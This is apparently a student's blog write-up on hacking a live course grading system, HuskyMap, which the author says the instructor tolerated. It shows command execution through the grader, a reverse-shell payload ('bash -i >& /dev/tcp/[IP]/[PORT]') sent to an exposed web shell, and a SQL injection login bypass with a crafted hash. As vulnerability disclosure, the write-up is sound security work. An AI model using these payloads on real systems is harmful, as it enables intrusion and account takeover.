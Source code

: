 ```yaml
---
title: '[Special: Bug Hunting] RCE and SQL Injection! (HuskyMap)'
date: '2023-3-24'
lastmod: '2023-3-24'
tags: ['writeup', 'other']
draft: true
summary: 'A vulnerability discovered! Is this a homework platform disguised as a CTF challenge?'
authors: ['vincent']
layout: PostLayout
---
```


# Introduction

HuskyMap is the homework/grading system created and used in CS211 by [Professor Varik Hoang](http://www.varikmp.net).
Students log in with credentials provided to them at the beginning of the course, and mainly utilize two of HuskyMap's functions:
Quiz Taking and Sanity Checks (test case validation for programming assignments).

# Part 1: Discovery

It was 5AM on Wednesday, and I had a calculus and biology exam on Friday and the ACT on Saturday. And just like any other student would
with huge priorities looming ahead, the first thing I thought to do when I woke up that morning was procrastinate: by booting up my HuskyMap
and looking for trouble! 😊

The first thing I tried was testing for RCE through the sanity check system. Hijacking one of my java assignments, I appended this into the main method:

```java
String command = "ls";
Process p;
try {
  p = Runtime.getRuntime().exec(command);
  InputStream in = p.getInputStream();
  int c;
  while ((c = in.read()) != -1) {
    System.out.print((char) c);
  }
  in.close();
} catch (Exception e) {
  System.out.print(e);
}
```

I was able to confirm the command executed by viewing the error logs on HuskyMap, but this didn't come as unexpected. Many homework graders
and online compilers all have "RCE" possibilities, but since they're virtualized nothing really comes of it.

Unfortunately for HuskyMap, after some testing, I found that it wasn't virtualized at all. Now honestly I could've stopped here, but I wasn't satisfied.
I didn't have read/write access to a lot of things, and uploading new code each time was getting time consuming with the built-in 5 minute sanity check cooldown.
I also wanted a reverse shell, but through the sanity check, my payload wasn't working.
`pwd` was giving me `/var/www/html/course/grading/log/work/48.17`, but I wasn't able to access any file I created by navigating to this directory. I discovered later
that my dead-end's were due to how the grader worked, but in the meantime, what I did was map out how most of the directory tree looked.

# Part 2: Reverse Shell Access

After mapping out the directory tree, I looked at `cat /var/www/html/course/index.php` in particular, I noticed a particularly interesting chunk of code:

```php
<?php
    // already logged in and has valid page
    if (isset($_SESSION['account']))
    {
        include 'pages/data.php';
        include 'pages/menu.php';
        if ($is_valid_page_id)
        {
            if ($page['is_intro'])
                include 'pages/intro.php';

            include 'pages/' .$page['directory_path'] . "/" . $page['file_path'];
            if ($account['permission'] > 0) // TODO should be more secure later
                echo '<div style="text-align: center"><input class="btn btn-primary btn-sm" type="button" onclick="window.location.href = \'?editor=' . $page_id . '\'" value="Edit Page"></div></br/>';
            // window.location.href = 'varikmp.com';   => simulate a mouse click
            // window.location.replace('varikmp.com'); => simulate an HTTP redirect
        }
        else if ($is_valid_editor_id) // TODO should be more secure later
        {
            include 'pages/editor.php';
            if ($account['permission'] > 0) // TODO should be more secure later
            {
                echo '<div style="text-align: center">';
                echo '<input id="view_page" disabled class="btn btn-primary btn-sm" type="button" onclick="';
                echo 'window.location.href = \'?page=' . $page_id . '\';';
                echo '" value="View Page">';
                echo '</div></br/>';
            }
        }
        else if (isset($_GET["slide"])) // TODO should be more secure later
        {
            include 'pages/slide.php';
        }
        else if ($is_valid_quiz_id)
        {
            if ($quiz['password'] === '' || (isset($_GET['pass']) && $quiz['password'] === trim($_GET['pass'])))
            include 'pages/quiz.php';
        }
        else if ($is_valid_contest_id && $contest['password'] === '' || (isset($_GET['pass']) && $contest['password'] === trim($_GET['pass'])))
        {
            include 'pages/contest.php';
        }
        else if (isset($_GET["manage"]) || isset($_POST["manage"])) // TODO should be more secure later
        {
            include 'pages/manage.php';
        }
        else if (isset($_GET["error"])) // TODO should be more secure later
        {
            include 'pages/error.php';
        }
        else if (isset($_GET["shell"]) && $account['permission'] > 0) // TODO should be more secure later
        {
            include 'pages/shell.php';
        }
        else
        {
            include 'pages/course.php';
        }
    }
    else include 'pages/login.php';
?>
```

_These brackets though...!!!_

> TODO should be more secure later

Well I guess that later hadn't occured yet because I was able to access `shell.php` just by navigating there on my browser. Reminder to configure apache correctly!

![shell](/static/images/blog/writeups/other/huskymap/shell.png)

I couldn't interact with it on the browser, but looking at `shell.php`, I was able to figure out it was a fork of [p0wny@shell](https://github.com/flozz/p0wny-shell)!

Now for the magic, sending a POST request to `/shell.php?feature=shell` with the `cmd` field as  
`bash -c "bash -i >& /dev/tcp/[IP]/[PORT] 0>&1"`!

```
POST http://[HUSKYMAP IP]/course/pages/shell.php?feature=shell
POST /course/pages/shell.php?feature=shell HTTP/1.1
User-Agent: PostmanRuntime/7.29.2
Accept: */*
Cache-Control: no-cache
Postman-Token: [Removed]
Host: 18.224.94.128
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 91

cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F[IP]%2F[PORT]%200%3E%261%22
```

Reverse Shell Get!

# Part 3: Login SQL Injection

After getting the reverse shell, I decided to poke around a bit more. One thing that really stuck out to me is how the login was handled in `login.php`

```php
$username = trim($_POST['username']);
$password = trim($_POST['password']);

$db = new SQLite3('db/course.db');
$query  = 'select * from user ';
$query .= 'where username = "' . $username . '" and is_active = 1';

$result = $db->query($query);
$user = $result->fetchArray();

if ($user && password_verify($password, $user['password']))
{
  ...
}
```

Wow, a string concatenated SQL statement! Referencing [this](https://stackoverflow.com/questions/50756182/sql-injection-with-password-verify) post along with the
course database, our final payload is as follows:

Username: `admin" UNION SELECT 1, 'admin', '$1$d39Yd9ds$B.wYz.OSxB/HdGmKWWpP10', 'admin', '', '', '', 2, 1 ;--`  
Password: `SQLInjection!!!` (hash generated using PHP `crypt()`)

# Conclusion

Although the vulnerability discovered here isn't the most innovative, it was a good exercise and a reminder that not all application in production are completely secure.
Thank you to Professor Varik for being so open to my little endeavour, and for being an awesome CS211 instructor!
